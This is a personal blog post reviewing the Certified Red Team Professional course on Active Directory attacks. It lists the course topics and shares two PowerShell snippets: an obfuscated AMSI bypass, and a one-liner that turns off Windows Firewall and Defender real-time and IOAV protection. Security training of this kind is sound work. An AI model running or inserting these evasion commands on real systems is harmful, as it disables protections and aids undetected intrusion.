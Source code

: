 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is all focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring. These were the two Powershell commands I ran each time which might be useful for others:

Bypass AMSI:
<div class="box">
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
</div>

Disable Multiple Things:
<div class="box">
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
</div>


